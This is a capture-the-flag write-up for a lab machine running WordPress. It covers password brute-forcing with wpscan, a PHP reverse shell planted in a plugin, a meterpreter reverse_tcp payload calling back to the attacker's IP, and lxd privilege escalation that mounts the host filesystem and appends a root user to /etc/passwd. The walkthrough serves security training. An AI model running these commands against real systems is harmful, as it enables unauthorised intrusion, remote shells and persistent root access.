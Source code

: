 
# For business reason writeup

## by Disturbante 

we can start the machine with an nmap scan:
```bash
nmap -sC -sV -p- 10.10.157.8
```
output:
```bash
PORT     STATE  SERVICE
22/tcp   closed ssh
80/tcp   open   http
|_http-title: MilkCo Test/POC site &#8211; Just another WordPress site
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
2377/tcp closed swarm
7946/tcp closed unknown
```

# www-data

the nmap behaviour is pretty strange, in fact we got a bunch of closed ports, that could indicate that a firewall is in place.<br>
To be shure about the port we can try to interact with the actual service behind, starting from the port 80.<br>

If we visit the ip on the website we can see that it's a blog website.<br>
	
![website](./pic/website.png)
	
From this page we can extract two valuable pieces of information:

- sysadmin (one username that could be used to authenticate)
- is a WordPress site

To check wordpress information we can use wpscan:
```bash
wpscan --url http://10.10.91.119/
```
It is a `wordpress 5.4.2` and there is the `wp-admin` page open, that means we can try to login.<br>
We also have an username, that means we can try to bruteforce the password, to do that i used wpscan again:
```bash
wpscan --url http://10.10.91.119/ -U sysadmin -P /usr/share/wordlists/rockyou.txt
```
The brute force take a while but eventually we got a password!!
	
![wp password](./pic/wp_pass.png)
	
So now we can log inside the wordpress admin page and see if we can get a revshell.<br>
When we log in the amdin panel we can see at least two methods to execute php code, the first one is by uploading a theme plugin, then activating it.<br>
But since there is already the `Hello Dolly` plugin i will use that to execute code.<br>
To set our reverse shell in place we need to navigate to `plugin editor` section and select `Hello Dolly`.<br>
Once we added the php revshell line we can activate the plugin and got the rev shell on a listener:
	
![revshell](./pic/revshell_setup.png)
	
We got a connection an we are www-data!<br>

# sysadmin

Altough we have a callback the machine we are in is pretty strange, in fact a lot of basic linux commands doesn't work.<br>
This is explained by a folder located in the `/`:
```bash
ls -la /
```
output:
```bash
total 72
drwxr-xr-x   1 root root 4096 Jan 21 17:15 .
drwxr-xr-x   1 root root 4096 Jan 21 17:15 ..
-rwxr-xr-x   1 root root    0 Jan 21 17:15 .dockerenv   #we are inside a docker container
drwxr-xr-x   1 root root 4096 Nov 18  2020 bin
drwxr-xr-x   2 root root 4096 Sep 19  2020 boot
drwxr-xr-x   5 root root  340 Jan 21 17:15 dev
drwxr-xr-x   1 root root 4096 Jan 21 17:15 etc
drwxr-xr-x   2 root root 4096 Sep 19  2020 home
drwxr-xr-x   1 root root 4096 Nov 18  2020 lib
drwxr-xr-x   2 root root 4096 Nov 17  2020 lib64
drwxr-xr-x   2 root root 4096 Nov 17  2020 media
drwxr-xr-x   2 root root 4096 Nov 17  2020 mnt
drwxr-xr-x   2 root root 4096 Nov 17  2020 opt
dr-xr-xr-x 154 root root    0 Jan 21 17:15 proc
drwx------   1 root root 4096 Nov 18  2020 root
drwxr-xr-x   1 root root 4096 Nov 18  2020 run
drwxr-xr-x   1 root root 4096 Nov 18  2020 sbin
drwxr-xr-x   2 root root 4096 Nov 17  2020 srv
dr-xr-xr-x  13 root root    0 Jan 21 17:15 sys
drwxrwxrwt   1 root root 4096 Jan 21 17:15 tmp
drwxr-xr-x   1 root root 4096 Nov 17  2020 usr
drwxr-xr-x   1 root root 4096 Nov 18  2020 var
```
We have a bunch of options to escape the docker and pivot to the next host, one of them is by enumerating the network we are in.<br>
With this command we will list all the ip of the machine. 
```bash
hostname -I 
```
output:
```bash
10.255.0.4 172.18.0.4 10.0.0.6
```
we have 3 interfaces, ti enumerate them we can do a basic port scan on the subnet with nmap, but wait... we don't have nmap.<br>
We can solve this problem by importing a static binary of nmap, i used [this](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64).<br>
We need to donwload it and importing it inside the machine, i used pwncat as following:
	
![static nmap](./pic/static_nmap.png)
	
we found out that the host 172.18.0.1 trough 172.18.0.4 are up, let's try to dig on those hosts, to do that i imported another static binary to performa a basic port scan, since we need to import a big nmap folder to use it as port scanner.<br>
After uploading the static version of netcat we can launch this bacis script:
```bash
for i in {1..25}; do ./nc -v -n -w 1 172.18.0.$i 22; done
```
	
![ssh open](./pic/open_ssh.png)
	
we have an ssh port open on the host `172.18.0.1`, now to access this host we need to pivot trough the docker container, the fastest way i know is by using meterpeter:<br>
i generate the payload on my localmachine:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.8.79.118 LPORT=6666 -f elf -o reverse.elf
```
Now we can upload and run the payload using pwncat:
	
![meterpreter](./pic/meterpreter.png)
	
Now we can add the port forward rule to pivot trough the host:
	
![sysadmin ssh login](./pic/sysadmin.png)
	
We had luck and we managed to login with sysadmin user inside the other container.<br>

# root

Now we need to enumerate in order to get root.<br>
By running the `id` command we can see that we are part of the lxd users:
```bash
id
```
output:
```bash
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),122(docker) 
```
By searching online i found [this guide](https://www.hackingarticles.in/lxd-privilege-escalation/) for privesc with lxd container.<br>
I runned all the commands and i succesfully got root:
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
python3 -m http.server 80 #start a server to upload the container
```
Now on the victim machine we can import the container and run it:
```bash
cd /tmp
wget http://10.8.79.118/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc exec ignite /bin/sh
```
Once we are root we can get a more comfortable shell as follows:
```bash
mkpasswd -m sha-512 Pass123 #create a new password hash on local machine
```
output:
```bash
$6$AtSRgOU/IrDUHgjd$8Xcx4cuHq3OQBf3./cXZl8qmIrrMYzh6nc09c/NaEdPQvD2ARvMEDjErgDGXzAKHhbOX7nyAKP6BrlgKPM7ed/
```
now we can add a user with root permissions:
```bash
echo 'newroot:$6$AtSRgOU/IrDUHgjd$8Xcx4cuHq3OQBf3./cXZl8qmIrrMYzh6nc09c/NaEdPQvD2ARvMEDjErgDGXzAKHhbOX7nyAKP6BrlgKPM7ed/:0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd
```
now we can exit the root container shell and run
```bash
su newroot #insert Pass123
```
We are now root on the host machine!
	
![root](./pic/root.png)
	
